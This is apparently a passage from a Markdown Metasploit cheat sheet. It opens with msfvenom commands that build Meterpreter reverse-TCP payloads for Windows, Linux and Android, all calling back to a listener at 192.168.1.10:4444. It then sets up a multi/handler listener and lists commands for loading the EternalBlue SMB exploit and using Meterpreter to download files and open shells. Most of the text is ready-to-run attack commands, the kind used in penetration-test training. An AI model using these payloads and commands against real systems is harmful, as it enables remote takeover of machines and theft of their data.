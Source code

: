 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe
```

### 🔹 Linux ELF

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > shell.elf
```

### 🔹 Android APK Payload

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 R > evil.apk
```

---

## 📡 11. Listener for Payloads

If you created a payload with `msfvenom`, you need a listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit
```

---

## 📑 12. Key Metasploit File Paths

|File/Dir|Description|
|---|---|
|`/usr/share/metasploit`|Core installation directory|
|`~/.msf4`|User config & loot|
|`/usr/share/metasploit-framework/modules/`|Module directory|

---

## 📊 13. Useful Cheatsheet Summary

|Task|Command Example|
|---|---|
|Search module|`search smb`|
|Load module|`use exploit/windows/smb/ms17_010_eternalblue`|
|Set options|`set RHOSTS <IP>`|
|List payloads|`show payloads`|
|Exploit target|`exploit` or `run`|
|Interact with session|`sessions -i 1`|
|Meterpreter actions|`sysinfo`, `download`, `shell`|

---
